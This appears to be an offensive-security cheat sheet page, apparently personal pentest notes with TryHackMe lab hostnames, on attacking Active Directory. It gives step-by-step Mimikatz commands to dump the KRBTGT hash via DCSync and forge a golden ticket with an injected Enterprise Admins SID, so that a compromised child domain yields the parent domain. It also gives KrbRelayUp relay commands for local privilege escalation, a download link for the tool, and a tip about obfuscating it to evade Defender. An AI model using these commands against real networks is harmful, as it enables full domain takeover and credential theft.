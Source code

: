 ## Domain Trusts

* Directional (by default) - The direction of the trust flows from a trusting domain to a trusted domain
* Transitive - The trust relationship expands beyond just two domains to include other trusted domains

When we compromise a child domain (sub.domain.com) and we want to compromise the parent domain (domain.com).

{% code overflow="wrap" fullWidth="true" %}
```powershell
# KRBTGT and Golden Tickets
In order to forge TGTs, we need the following information:
    The FQDN of the domain
    The Security Identifier (SID) of the domain
    The username of the account we want to impersonate
    The KRBTGT password hash
The last one requires a domain compromise since the KRBTGT password hash is only stored on domain controllers. 
# Dump KRBTGT from DC
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /user:SUBDOMAIN\krbtgt

# Inter-Realm TGTs -> TGT to provide access to other domains. For this we need Enterprise Admins (S-1-5-21-<RootDomain>-519)
we first need to recover two SIDs:
    The SID of the child domain controller (DC), which we will impersonate in our forged TGT
    The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT
PS C:\> Get-ADComputer -Identity "THMDC" # using the AD-RSAT Powershell cmdlets
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

# Exploiting Domain Trusts -> generate Golden Ticket with Mimikatz
mimikatz # privilege::debug
mimikatz # kerberos::golden /user:Administrator /domain:sub.domain.com /sid:<DC SID> /service:krbtgt /rc4:<krbtgt hash> /sids:<SID of Enterprise Admins group> /ptt
# Verify it is a valid ticket for the child domain
C:\>dir \\thmdc.za.tryhackme.loc\c$ # PC/hostname.domain.com
# since we specified extra SIDs, we should also now have access to the parent DC
C:\>dir \\thmrootdc.tryhackme.loc\c$\ # PC/hostname.domain.com
```
{% endcode %}

## KrbRelayUp

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/Dec0ne/KrbRelayUp
https://kb.offsec.nl/tools/techniques/krbrelayup/files/KrbRelayUp.exe
As KrbRelayUp is detected by defender, we will use the step by step approach like this writeup by @an0n_r0, using @cube0x0 KrbRelay

# The conditions to exploit this privesc is LDAP signing is NOT enforced
nxc ldap $IPs -u user -p pass -d dc.domain.local -M ldap-checker

####### Without AV or if you modify/obfuscate KrbRelayUp, you can do the all things with just the following commands
# First, the authenticated users w/o privs will relay a Kerberos request to LDAP and will create a computer
.\KrbRelayUp.exe relay -Domain <Domain> -CreateNewComputerAccount -ComputerName <hostName>$ -ComputerPassword <Password>
# Then this new computer will be used to request a TGT that will be used to create a new service as SYSTEM
```
